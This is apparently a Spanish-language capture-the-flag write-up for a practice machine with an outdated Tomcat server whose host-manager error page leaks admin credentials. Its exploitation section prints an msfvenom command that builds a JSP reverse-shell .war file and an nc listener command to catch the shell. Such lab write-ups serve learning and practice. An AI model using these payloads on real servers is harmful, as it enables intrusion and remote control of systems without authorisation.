




En esta máquina explotamos credenciales filtradas y una versión de Tomcat desactualizada que permite la subida de archivos maliciosos **.war**.  

## Enumeración 

Iniciamos nuestra enumeración con **nmap** y nos revela que el puerto **8080** está abierto.  


## Reconocimiento
Al entrar en la página y navegar por ella, veo que al darle a *_Host_Manager_* e ingresar credenciales erróneas, aparece un *pop-up* para loguearte y te redirige instantáneamente a **/host-manager/html**. Ahí se filtran las credenciales y solo tienes que iniciar sesión con ellas.



Una vez dentro nos encontraremos en el panel de administración, donde podremos subir un archivo malicioso **.war** que nos dará una _reverse shell_.

## Explotación 

Buscando un poco por internet vi que con **msfvenom** podemos crear un archivo **.war** que, al subirlo, nos brinde una _reverse shell_.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war
```

Luego lo subes y te diriges a la ruta donde se guardó; el mismo Tomcat te da el hipervínculo para acceder a él.  

En paralelo, nos ponemos en escucha:  
```bash
nc -nlvp PORT
```
<span style="font-size:12px">_Antes de entrar a la ruta, debemos estar en escucha esperando la reverse shell_</span>

Una vez dentro solo tendremos que ir al **_Desktop_** del usuario _Administrador_ y ahí encontrarás las dos flags.

### Reflexión

Una máquina bastante sencilla, no tiene mucho misterio, pero sirve para empezar a tener contexto de lo que es la filtración de credenciales y la subida/creación de archivos maliciosos con **msfvenom**. Poco más. La verdad, no es muy interesante, pero sí es útil como base.  



# FIN
